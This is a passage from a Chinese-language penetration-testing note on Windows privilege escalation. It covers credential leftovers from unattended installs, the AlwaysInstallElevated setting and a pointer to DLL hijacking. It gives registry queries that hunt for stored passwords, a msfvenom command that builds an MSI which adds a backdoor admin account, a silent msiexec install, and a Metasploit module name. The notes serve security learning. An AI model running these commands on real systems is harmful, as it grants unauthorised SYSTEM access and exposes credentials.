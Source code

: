 ```C:\Program Files\Lenovo\Fingerprint Manager Pro\OmniServ.exe```
也可以用schtasks，参考：

http://www.360doc.com/content/22/0516/08/67252277_1031561232.shtml 第9点。

9.Unattached Installs （自动安装）(实际利用非常罕见)

自动安装允许程序在不需要管理员关注下自动安装。这种解决方案用于在拥有较多雇员和时间紧缺的较大型组织中部署程序。如果管理员没有进行清理的话，会有一些文件残存在系统上。有些文件中包含部署操作系统时使用的凭据信息，这些信息可以帮助我们提权。

查询注册表，例如password字符串：

	reg query HKLM /f password /t REG_SZ /s
	reg query HKCU /f password /t REG_SZ /s

MSF

![](images/7.png)

10.AlwaysInstallElevated

AlwaysInstallElevated 是一种运行非管理用户以SYSTEM权限运行Microsoft Windows 安装程序包 (.MSI文件)的设置。默认情况下禁用此设置，需系统管理员手动启用。

可以查询注册表项：

	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

如果不存在漏洞，会提示不存在key或value

![](images/8.png)

如果存在，会输出：

![](images/9.png)

MSF

使用msfvenom生成msi文件，进行提权：

	msfvenom -p windows/adduser USER=rottenadmin PASS=Passw0rd@123 -f msi-nouac -o rotten.msi

windows	

	msiexec /quiet /qn /i C:\**\rotten.msi

	#/quiet 安装过程中禁止向用户发送消息  
	#/qn 不使用GUI
	#/i 安装程序

MSF

	exploit/windows/local/always_install_elevated

11.dll劫持提权

详见目录 [note\pentest\持久化\DLL劫持](https://github.com/leezp/note/tree/master/pentest/%E6%8C%81%E4%B9%85%E5%8C%96/DLL%E5%8A%AB%E6%8C%81)




## 后记
```